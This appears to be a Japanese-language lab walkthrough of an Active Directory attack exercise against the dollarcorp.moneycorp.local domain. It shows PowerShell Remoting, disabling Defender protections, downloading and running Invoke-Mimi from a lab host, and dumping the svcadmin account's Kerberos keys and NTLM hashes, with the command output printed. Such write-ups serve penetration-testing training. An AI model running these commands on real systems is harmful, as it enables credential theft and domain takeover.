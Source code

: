 ```
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL 
         * Password : (null) 
         * Key List :
         aes256_hmac       
6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8 
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8 
           rc4_md4           b38ff50264b74508085d82c69794a4d8 
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8 
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8 
```
---
## 悪用(PowerShell Remoting) 
1. PowerShell Rimotingを使ってdcorp-mgmt上でコマンドを実行できるかを確認する
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> Invoke-Command -ScriptBlock {$env:username;$env:computername} -ComputerName dcorp-mgmt 

ciadmin 
dcorp-mgmt 
```
- コマンドの説明
Invoke-Commandは、リモート先へ接続するためのものコマンド。
引数のScriptBlockはリモート先の端末で複数の処理をひとまとまりにして送ることができる。

---
2. Invoke-Mimiを使ってdcorp-mgmtのハッシュをダンプし、ドメイン管理**svcadmin**のハッシュを取得する。
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
```

---
3. Invoke-Mimiを使うには、AMSIを無効にしなければならない。
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> $sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local 
 
PS C:\Users\Administrator\.jenkins\workspace\Projectx> Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess 

PS C:\Users\Administrator\.jenkins\workspace\Projectx> Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess 
 
[snip] 
  
Authentication Id : 0 ; 58866 (00000000:0000e5f2) 
Session           : Service from 0 
User Name         : svcadmin 
Domain            : dcorp 
Logon Server      : DCORP-DC 
Logon Time        : 3/3/2023 2:39:12 AM 
SID               : S-1-5-21-719815819-3726368948-3917688648-1118 
 
         * Username : svcadmin 
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL 
         * Password : (null) 
         * Key List : 
           aes256_hmac       
6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8 
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8 
           rc4_md4           b38ff50264b74508085d82c69794a4d8 
```

[dcorp-adminsrv]: PS C:\Users\studentx\Documents> $ExecutionContext.SessionState.LanguageMode 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
[dcorp-mgmt]: PS C:\Users\srvadmin\Documents> $env:username 
[dcorp-mgmt]: PS C:\Users>iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
[dcorp-mgmt]: PS C:\Users> Invoke-Mimi -Command '"sekurlsa::ekeys"' 
[dcorp-mgmt]: PS C:\Users\mgmtadmin\Documents> Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"' 